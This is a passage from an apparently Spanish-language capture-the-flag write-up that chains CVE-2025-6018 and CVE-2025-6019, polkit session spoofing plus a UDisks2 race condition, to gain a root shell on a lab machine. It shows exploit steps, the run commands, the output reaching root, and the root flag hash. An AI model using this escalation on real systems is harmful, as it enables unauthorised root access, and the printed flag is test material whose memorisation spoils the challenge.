$CATCHER
```

***

#### Funcionamiento del exploit

1. Verifica que la sesión esté marcada como **Active**
2. Configura permisos y rutas necesarias
3. Lanza en segundo plano la creación del loop device y la llamada vulnerable a `UDisks2`
4. Ejecuta el `catcher`, que aprovecha la condición de carrera

Una vez listo, otorgamos permisos y lo ejecutamos:

```shell
chmod +x exploit.sh
./exploit.sh
```

Respuesta:

```
[+] Session is Active. Polkit bypass enabled.
[*] Starting Background Trigger (Wait 2s)...
[*] Starting Foreground Catcher...
[*] HOLD TIGHT. ROOT SHELL INCOMING.
[*] Sniper started. Waiting for ANY loop mount...
[*] (BG) Setting up loop device...
[*] (BG) Triggering Resize on /org/freedesktop/UDisks2/block_devices/loop0...

[!!!] HIT! Mounted at: /tmp/blockdev.GF74J3
pterodactyl:/tmp # whoami
root
```

Mediante el encadenamiento de **CVE-2025-6018** y **CVE-2025-6019**, conseguimos:

1. Forzar que una sesión SSH sea tratada como **sesión local activa**
2. Obtener autorización de **polkit** para operaciones sensibles
3. Explotar una condición de carrera en **UDisks2**
4. Ejecutar una shell SUID y escalar privilegios a **root**

Con acceso `root`, ya es posible leer la `flag` correspondiente al usuario `root`.

> root.txt

```
744d0b24dd128a838a9b44b6dc453942
```
